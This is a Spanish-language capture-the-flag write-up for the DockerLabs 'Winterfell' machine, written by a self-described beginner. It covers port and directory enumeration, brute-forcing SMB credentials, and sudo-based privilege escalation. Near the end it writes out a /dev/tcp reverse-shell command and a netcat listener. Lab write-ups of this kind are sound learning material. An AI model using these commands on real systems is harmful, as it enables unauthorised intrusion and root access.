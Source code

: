# Winterfell

Hola, hoy voy a hacer la maquina de [DockerLabs](https://dockerlabs.es) llamada winterfell

## INTRUSIÓN

Primero iniciamos con un escaneo de puertos usando nmap:

![nmap](./images/winterfell/imagenes/nmap.png)

Vemos que los puertos abiertos son el 22, 80, 139 y 445, eso significa que tenemos ssh y smb

Puerto 80:

![Puerto80](./images/winterfell/imagenes/Puerto80.png)

ya que no se ve nada interesante hacemos fuzzing con gobuster:

"gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt":

![gobuster](./images/winterfell/imagenes/gobuster.png)

Podemos ver que hay un directorio llamado "dragon", entramos y vemos que hay un index a un archivo llamado EpisodiosT1, entramos y vemos lo siguiente:

![directoriodragon](./images/winterfell/imagenes/directoriodragon.png)

Ya que no hay nada mas intentaremos ver el puerto 443 usando smbmap, entrando de manera anonima no nos dice nada asique probaremos en meter los episodios que nos dieron en un .txt para poder intentar sacar la contraseña intentando con el usuario "jon" que salia en el puerto 80

![Contraseñajon](./images/winterfell/imagenes/Contraseñajon.png)

Vemos el usuario "jon" con contraseña "seacercaelinvierno", ahora si podemos usar smbmap con el usuario que encontramos "smbmap -H 172.17.0.2 -u jon -p seacercaelinvierno":

![SMB](./images/winterfell/imagenes/SMB.png)

luego ponemos "smbclient //172.17.0.2/shared -U jon" y nos guardamos el archivo que esta dentro con el comando "get": ![get](./images/winterfell/imagenes/get.png)

En el archivo vemos lo siguiente:

![prote](./images/winterfell/imagenes/prote.png)

asique lo metemos en un archivo y usamos el comando "base64 -d archivo.txt" para poder obtener la contraseña, y nos dirá que es "hijodelanister" suponemos que es la del ssh asique intentaremos entrar al ssh con el usuario jon y contraseña "hijodelanister", y entramos.

## ESCALADA

Ya estando dentro somos el usuario jon, por lo que ejecutaremos "sudo -l" para ver que comandos podemos ejecutar con sudo

![sudo](./images/winterfell/imagenes/sudo.png)

intentaremos modificar el archivo ".mensaje.py" usando "nano" y vemos que no esta el binario, tampoco vim, tendremos que hacerlo con echo "echo -e "import os\nos.system("/bin/bash")" > .mensaje.py" pero primero le cambiamos el nombre del archivo por cualquier otro usando "mv .mensaje.py mensaje". Luego lo ejecutamos con "sudo -u aria /usr/bin/python3 /home/jon/.mensaje.py" y ya seremos el usuario aria.

Como aria ejecutamos "sudo -l" y vemos que podemos ejecutar con sudo:

![ariasudo](./images/winterfell/imagenes/ariasudo.png)

vemos que podemos ejecutar "cat" y "ls" como daenerys, asique intentaremos hacer un ls a "/home/danerys" y vemos lo siguiente:

![ls](./images/winterfell/imagenes/ls.png)

Usaremos cat como daenerys y vemos el mensaje

![mensaje](./images/winterfell/imagenes/mensaje.png)

Asique cambiamos de usuario con "su daenerys" y ponemos la contraseña. Ejecutamos "sudo -l" y vemos que podemos ejecutar un script que esta oculto en la home de daenerys

![daesudo](./images/winterfell/imagenes/daesudo.png)

asique listamos los directorios con "ls -la" y vamos hasta el script

![directorios](./images/winterfell/imagenes/directorios.png)

ya estando ahi vemos lo que tiene el script y lo modificamos para que nos mande una revershell a nuestra ip con "echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/(nuestra ip)/443 0>&1' > .shell.sh". Luego nos ponemos en escucha con netcat en nuestra maquina usando "nc -nlvp 443" y listo, somos el usuario root

![final](./images/winterfell/imagenes/final.png)

si queremos podemos hacer el tratamiento de la tty para quedar con un terminal mas comodo pero hasta ahi llego yo.

Este es mi primer tutorial y si no se entiende mucho perdon, tampoco soy experto y tambien estoy aprendiendo. Gracias

